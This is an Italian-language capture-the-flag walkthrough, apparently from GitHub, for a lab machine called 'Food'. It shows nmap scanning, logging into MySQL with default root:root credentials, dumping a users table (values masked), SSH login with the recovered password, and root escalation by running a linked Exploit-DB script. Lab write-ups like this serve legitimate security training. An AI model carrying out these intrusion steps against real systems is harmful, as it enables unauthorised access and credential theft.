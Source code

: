 # FOOD

### ENUMERAZIONE
scan della macchina per torvare possibili porte e la versione di queste.

```bash
nmap food.thm -sV -sC 
```

### SERVIZIO SQL

ho notato che è aperto un servizio sql adiamo ad analizzarlo meglio con nmap.

```bash
nmap food.thm -sV --script *sql* 
```
quando nmap finisce lo scan ci restituisce dati molto utili, per esempio che l'utente di mysql è root:root
e questo ci da carta bianca sulla conessione all'sql.

quindi mi collego all'sql.

```bash
mysql -u root -h 10.10.79.244 -p
```
successivamente mi faccio dumpare tutti i database presenti.

```bash
show databases;
```
```bash
+--------------------+
| Database           |
+--------------------+
| information_schema |
| mysql              |
| performance_schema |
| sys                |
| users              |
+--------------------+
```

ecco la tables che ci serve andiamo a prenderla.
```bash
use users
```
e successivamente. 
```bash
show tables;
```

adesso abbiamo trovato una tables di nome user andiamo a leggere cosa c'è dentro.
```bash
SELECT * FROM User;
```


ramen    ***************                       
flag     ************************************* 


ecco un utente con la sua password e un flag!

entriamo in ssh.

## SSH
```bash
ssh ramen@food.thm
```
controllate in giro ci dovrebbero essere altre flag che potete prendere.

facendo un controllo dei permessi che abbiamo.
ho notato che possiamo fare davvero molto poco, quindi sono andato a cercare le vulnerabilità per quanto riguarda GNU, e ne ho trovata una davvero interessate
andiamo ad utilizzarla.

## PRIVESC

https://www.exploit-db.com/exploits/41154 ho usato questo exploit per fare priv esc,
questo exploit sfrutta un autenticazione di livello maggiore(root) e ci permette tramite un vulnerabilità presente in 
quest'ultima di fare priv esc.

una volta scaricato lo script lo passiamo sulla macchina il gioco è fatto.
```bash
chmod +x script.sh
./script.sh
```
